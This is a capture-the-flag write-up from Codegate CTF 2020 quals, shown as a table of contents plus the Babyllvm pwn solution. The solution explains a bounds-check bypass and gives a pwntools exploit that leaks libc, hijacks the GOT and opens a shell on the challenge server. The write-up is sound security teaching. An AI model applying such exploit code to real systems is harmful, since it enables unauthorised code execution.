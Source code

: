 # Codegate CTF 2020 Preliminary

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20200208-codegatectf2020quals/) of this writeup.**


 - [Codegate CTF 2020 Preliminary](#codegate-ctf-2020-preliminary)
 - [Codegate CTF 2020 Preliminary](#codegate-ctf-2020-preliminary-1)
   - [Pwn](#pwn)
     - [Babyllvm](#babyllvm)
   - [Web](#web)
     - [CSP](#csp)
       - [Train of Thought](#train-of-thought)
       - [Failed Attempts](#failed-attempts)
     - [renderer](#renderer)
       - [Train of Thought](#train-of-thought-1)
   - [Crypto](#crypto)
     - [Halffeed](#halffeed)
     - [Munch](#munch)
     - [Polynomial](#polynomial)
   - [Misc](#misc)
     - [Verifier](#verifier)
   - [Rev](#rev)
     - [ORM-APP](#orm-app)
       - [Reverse the emulator](#reverse-the-emulator)
       - [Exploit the program](#exploit-the-program)
     - [malicious](#malicious)


---

# Codegate CTF 2020 Preliminary

## Pwn

### Babyllvm
When rel_pos == 0, is_safe always return True. We can modify data_ptr in one block and read/write in another block to bypass bounding check getting arbitrary read/write. Leak libc address and hijack GOT to control PC and get shell.
```python=
from pwn import *

#r = remote("localhost",4444)
r = remote("58.229.240.181", 7777)
payload = ",[]<<<<<<<<[-]<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<.>.>.>.>.>.>.>.>,>,>,>,>,>,>,>,>"
r.sendlineafter(">>>",payload)
r.recvrepeat(1)
r.send("\x00")
libc = u64(r.recvuntil("\x7f")[-6:]+"\x00\x00") - 0x110070
print hex(libc)
r.send(p64(libc+0x10a38c))
r.sendlineafter(">>>","<-")
r.interactive()
```
